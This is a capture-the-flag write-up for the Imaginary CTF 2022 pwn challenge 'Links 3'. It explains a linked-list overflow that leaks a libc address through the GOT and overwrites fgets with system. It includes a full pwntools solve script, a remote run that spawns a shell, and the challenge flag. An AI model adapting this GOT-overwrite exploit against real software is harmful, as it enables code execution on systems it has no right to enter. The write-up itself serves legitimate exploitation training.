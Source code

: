 ```yaml
---
name: Links 3 (2022)
event: Imaginary CTF 2022
category: Pwn
description: Writeup for Links 3 (Pwn) - Imaginary CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Links 3

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/GCkHwYBlsN8/0.jpg)](https://www.youtube.com/watch?v=GCkHwYBlsN8 "Links 3")

## Description

> And now you guys are exploiting my View Time feature that I put there solely for your convenience? Fine, then - no more time for you!

**[download challenge binary](https://imaginaryctf.org/r/iYVvf#links3)**

## Solution

I'll keep this short; since `Links 2`, the `view_time` function has been removed. We no longer have `system` in the GOT, but that doesn't matter.

As is common practice with stack-based buffer overflows, we can leak **any** Lib-C function address and then calculate our way back to the base of the binary. From there, we can add any offset we like to get the function of choosing, e.g. `libc.system` or a string, e.g. `libc."/bin/sh"`.

I chose to leak `got.puts`, when run against the server it leaks `0x7fbfd373eed0`. Once we get an address of a known function, we can take it to **[libc.blukat.me](https://libc.blukat.me)** or **[libc.rip](https://libc.rip)** and provide the function name and address.

We'll get a list of possible Lib-C library versions. The more functions we leak, the more we can narrow down the search.

In this case, the correct version was `libc6_2.35-0ubuntu3_amd64`, so we plug in the correct offsets.

{% code overflow="wrap" %}
```py
libc = puts - 0x80ed0
system = libc + 0x50d60
```
{% endcode %}

Running the binary, we get a shell.

{% code overflow="wrap" %}
```py
python exploit.py REMOTE puzzler7.imaginaryctf.org 2998
[+] Opening connection to puzzler7.imaginaryctf.org on port 2998: Done
[*] leaked got_puts: 0x7f470992eed0
[*] got_system: 0x7f47098fed60
[*] Switching to interactive mode
 What data do you want to write to this element?

>>> $ cat flag.txt
ictf{dammit_I'm_never_gonna_mix_up_64_and_0x64_again_it's_cost_me_three_flags_already}
```
{% endcode %}

**note:** If this write-up didn't make much sense, review `Links 1` and `Links 2` write-ups first 🙂

## Solve Script

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links3'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.puts, 0x51]))

# View list (leak libc.puts() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
puts = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_puts: %#x", puts)
# libc6_2.35-0ubuntu3_amd64 - https://libc.rip/
libc = puts - 0x80ed0
system = libc + 0x50d60
info("got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system
io.sendlineafter(b'>>>', flat(system))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```
{% endcode %}
